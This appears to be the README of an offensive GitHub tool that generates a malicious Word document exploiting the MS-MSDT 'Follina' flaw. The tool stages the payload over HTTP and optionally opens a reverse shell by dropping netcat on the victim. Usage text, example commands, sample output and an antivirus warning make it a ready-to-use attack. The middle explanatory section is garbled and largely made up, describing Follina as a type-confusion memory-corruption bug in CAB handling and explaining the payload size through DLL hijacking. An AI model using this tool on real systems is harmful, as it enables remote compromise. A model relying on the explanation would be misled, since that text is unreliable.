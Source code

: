 # MS-MSDT "Follina" Attack Vector

--------------


This Python script generates a maldoc, that executes a PowerShell command on the target machine. It also sets up an HTTP server to deliver the malicious payload to the target machine.

The script takes several arguments, including the command to be executed on the target machine, the name and location of the output maldoc file, the network interface or IP address to host the HTTP server, the port to serve the HTTP server, and the port to serve the reverse shell on.

The script first parses the supplied interface to determine what to reach out to. It then copies a Microsoft Word skeleton into a temporary staging folder, prepares a temporary HTTP server location, and modifies the Word skeleton to include the HTTP server. The script then rebuilds the original office file and creates the maldoc.

Next, the script encodes the PowerShell command as base64 and creates a unique MS-MSDT payload that is over 4096 bytes at minimum. It then creates an HTML endpoint and hosts the HTTP server on all interfaces.

If the user has specified a reverse shell, the script downloads and executes a Netcat binary to establish a reverse shell on the target machine. The script creates a new thread to host the HTTP server and starts it. The anti-virus on the target system can flag the Netcat binary being downloaded so be careful.

--------------

The Microsoft MSDT-Follina zero-day vulnerability is a type confusion bug that allows attackers to execute arbitrary code on a victim's computer. The vulnerability was first discovered in early 2021 and is actively being exploited in the wild. Here's how the vulnerability works in detail:

Initial infection: The attackers initially infect a victim's computer using a phishing email or other social engineering techniques. The payload is typically delivered through a malicious document or a link to a website hosting the exploit.

Exploit delivery: The exploit uses the vulnerability in the Microsoft Diagnostic and Recovery Toolset (MSDaRT) to execute arbitrary code on the victim's computer. The vulnerability exists because of the way the MSDaRT toolset processes a specific type of file, called a cabinet file (CAB).
The ms-msdt payload needs to be at least 4096 bytes in size because the payload is being delivered via a technique known as DLL search order hijacking. When a DLL is loaded by a Windows process, Windows will search for the DLL in several locations, including the current directory of the process. By creating a file with the same name as a DLL that the process is trying to load, an attacker can cause the process to load the attacker's file instead. However, if the attacker's file is smaller than the original DLL, the process may try to read beyond the end of the file and cause a crash. To avoid this, the attacker needs to ensure that the size of the malicious file is at least as large as the original DLL. In the case of the ms-msdt payload, the original DLL is typically around 4 KB in size, so the attacker needs to create a file of at least that size to avoid crashes.

Type confusion: The vulnerability is a type confusion bug, which means it occurs when the program mistakenly uses an object of one type as if it were an object of another type. In this case, the vulnerability arises because the MSDaRT toolset does not properly check the type of objects when processing CAB files.

Memory corruption: The exploit triggers a memory corruption vulnerability in the MSDaRT toolset by providing it with a specially crafted CAB file that causes the toolset to allocate memory incorrectly. This creates a situation where an attacker can control the contents of memory and execute arbitrary code.

Payload execution: The exploit then executes the attacker's payload, typically a Remote Access Trojan (RAT), which allows the attacker to take full control of the victim's computer. The RAT can be used to steal sensitive data, install additional malware, or perform other malicious actions.

Detection evasion: The attackers typically use various techniques to evade detection by antivirus software, including packing the payload with custom packers, encrypting the payload, or using fileless techniques.

The MSDT-Follina zero-day vulnerability is a serious threat to users of Windows operating systems. Microsoft has released a patch to fix the vulnerability, and users are strongly advised to update their systems as soon as possible to prevent exploitation. Additionally, users should be cautious when opening email attachments or clicking on links from unknown sources to avoid falling victim to phishing attacks.

--------------

Create a "Follina" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

![Screenshot](https://user-images.githubusercontent.com/6288722/171033876-dbe73e3e-0a3a-436a-91d8-7fa77a5c1ace.png)

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `calc.exe`:

```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```
$ python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```
$ python3 follina.py -r 9001
```

![Reverse Shell](https://user-images.githubusercontent.com/6288722/171037880-03a73d6a-4606-4c42-abcb-ee52a9e669c6.png)
